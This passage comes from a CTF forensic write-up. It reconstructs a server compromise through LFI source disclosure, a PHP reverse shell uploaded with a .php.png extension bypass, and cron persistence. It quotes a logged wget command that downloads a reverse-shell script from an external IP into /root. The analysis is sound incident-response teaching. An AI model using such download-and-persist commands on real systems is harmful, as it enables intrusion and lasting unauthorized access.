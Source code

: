 -> They managed to **upload reverse shell** (that executed the Base64-encoded commands that we found in the first place). You can notice the file ```ev1L.php.png``` has **bypassed the extension check** by simply adding ```.png``` at the end of it ; a vulnerability caused by bad file sanitization and linked to **CWE-434: Unrestricted Upload of File with Dangerous Type, our element #2 and second vulnerability !!**

<br><br><br>
# Command history : the persistence file

We can now check the **systemd logs**, which contain the commands history. I start by filtering out every event that happened before the payload got uploaded.

I search for the keyword `s1mpl3-r3vsh3ll-vps.sh`, which is the tool that got downloaded on the target machine we found [here][filter-part]. I naturally search for a moment when the attacker **downloads** another file that will serve their persistence.
After some manipulations, the attacker finally downloads a file :
```bash
EXECVE argc=4 a0="wget" a1-"http://163.172.67.201:49999/s1mpl3-r3vsh3ll.sh" a2="-0" a3="/root/.0x00/pwn3d-by-nullv4stati0n.sh"
```
They, then, **add it to the crontab** (a table that contains tasks that execute at regular intervals and can stay even after the machine is turned off), which demonstrates the persistence of the file. We got our last **element #4 : `/root/.0x00/pwn3d-by-nullv4stati0n.sh` !**

<br><br><br>
# Attack Summary

We have **gathered the four key artifacts** and can conclude that the attacker proceeded through the following phases:

---

1. Reconnaissance – Content Discovery
  - Content discovery using various methods / tools to enumerate accessible resources on the target server.
2. Attempt to Upload Malicious Content
  - They searched for a way to upload a malicious file, probing the application's upload mechanisms and endpoints.
3. Source Code Disclosure via LFI (CWE-98)
  - The attacker exploited a **Local File Inclusion** vulnerability to access sensitive server files.
  - Through this, they retrieved the source code of the `admin-page/manage` endpoint.
  - **Element #1** identified: `CWE-98: Improper Control of File Name or Path`.
4. Malicious File Upload (CWE-434)
  - With the upload logic understood, they successfully uploaded a malicious file due to an **unrestricted file upload vulnerability**.
  - **Element #2** identified: `CWE-434: Unrestricted Upload of File with Dangerous Type`.
5. Reverse Shell Retrieval
  - The payload included a call to retrieve a reverse shell tool from:  
  `163[.]172.67.201`  
  - **Element #3**: external IP and malicious binary source.
6. Persistence via Cron
  - Using the reverse shell, they downloaded a file:  
  `/root/.0x00/pwn3d-by-nullv4stati0n.sh`
  - It was then added to `crontab`, establishing **persistence** on the compromised system.

---

[mission1]: https://silkyheldi.github.io/TheWatchNode/ctf/dgse-ctf-2025-m1/
[ffuf]: https://github.com/ffuf/ffuf
[LFI]: https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion
[cwe-98]: https://cwe.mitre.org/data/definitions/98.html
[cwe-434]: https://cwe.mitre.org/data/definitions/434.html
[filter-part]: https://silkyheldi.github.io/TheWatchNode/ctf/dgse-ctf-2025-m2#filters-for-commands-execution-in-requests